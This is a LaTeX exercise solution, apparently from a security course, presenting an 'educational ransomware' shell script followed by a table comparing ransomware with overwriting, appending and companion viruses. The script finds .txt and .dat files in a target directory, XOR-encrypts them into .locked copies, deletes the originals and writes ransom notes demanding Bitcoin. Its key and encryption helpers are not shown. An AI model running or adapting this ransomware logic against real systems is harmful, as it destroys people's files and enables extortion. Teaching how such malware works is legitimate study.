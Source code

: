 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Solution}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[CryptoShell Project --- Educational Ransomware]
\begin{correction}
\begin{lstlisting}[title=cryptoshell.sh (phase3\_ransom.sh)]
KEY=$(generate_key 8)
echo "$KEY" > "$KEY_FILE"

create_ransom_note() {
    local dir="$1"
    cat > "${dir}/RANSOM_NOTE.txt" << EOF
============================================
    CRYPTOSHELL — YOUR FILES ARE ENCRYPTED
============================================
Victim ID: ${VICTIM_ID}
Send 0.5 BTC to [FAKE ADDRESS — EDUCATIONAL LAB]
Contact: cryptoshell@fake-educational.example
[This is an educational exercise]
============================================
EOF
}

echo "[CryptoShell] Encrypting..."
find "$TARGET_DIR" -type f \( -name "*.txt" -o -name "*.dat" \) | while read filepath; do
    case "$filepath" in *.locked) continue ;; esac
    [ "$(basename "$filepath")" = "RANSOM_NOTE.txt" ] && continue
    xor_file "$filepath" "${filepath}.locked" "$KEY"
    rm -f "$filepath"
    echo "  [+] $(basename "$filepath") -> $(basename "$filepath").locked"
    DIR=$(dirname "$filepath")
    if [ ! -f "${DIR}/RANSOM_NOTE.txt" ]; then
        create_ransom_note "$DIR"
    fi
done
echo "[CryptoShell] Encryption complete. ID: $VICTIM_ID"
\end{lstlisting}

\textbf{3d)} Comparison of ransomware vs. classic techniques:

\begin{center}
\begin{tabular}{lp{5.5cm}p{5.5cm}}
\toprule
\textbf{Technique} & \textbf{Action on file} & \textbf{Reversibility} \\
\midrule
\textbf{Overwriting} & Replaces content with viral code & Irreversible (data destroyed) \\
\textbf{Appending} & Adds viral code at end & Reversible (remove appended code) \\
\textbf{Companion} & Does not modify original file & Reversible (delete companion) \\
\textbf{Ransomware} & Replaces content with encrypted version & Reversible \textbf{if} key is known \\
\bottomrule
\end{tabular}
\end{center}

\textbf{Similarities:} Like the overwriting virus, ransomware \textbf{replaces} file content. Like the appending virus, it uses an \textbf{anti-reinfection} mechanism (checking the \texttt{.locked} extension).

\textbf{Fundamental differences:} (1) Ransomware does not \textbf{append} itself --- it replaces content with an encrypted version. (2) Ransomware does not \textbf{spread} into executables --- it targets \textbf{data}. (3) Reversibility depends on the \textbf{key}: this is the economic leverage of ransomware.


\end{correction}
\end{exercice}
\end{document}
